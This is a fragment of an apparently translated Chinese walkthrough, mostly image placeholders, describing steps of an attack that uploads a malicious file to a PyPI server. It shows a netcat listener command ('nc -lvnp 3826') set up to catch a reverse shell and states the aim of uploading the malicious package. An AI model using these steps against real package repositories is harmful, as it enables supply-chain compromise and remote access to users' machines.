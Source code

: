 ![](img/a935bd8f0687b7904420f3a3312a43de.png)

确保文件是可执行的。

![](img/e9b11c88f35c13d16034022e0b3e2462.png)

> 5.将 Home 变量更改为文件所在的位置。

![](img/ba6dc87a33126af540c7223ff37e2106.png)

> 6.启动主机上的监听端口

`nc -lvnp 3826`

> 7.执行

现在一切都已正确配置，执行命令将恶意文件上传到 pypi 服务器
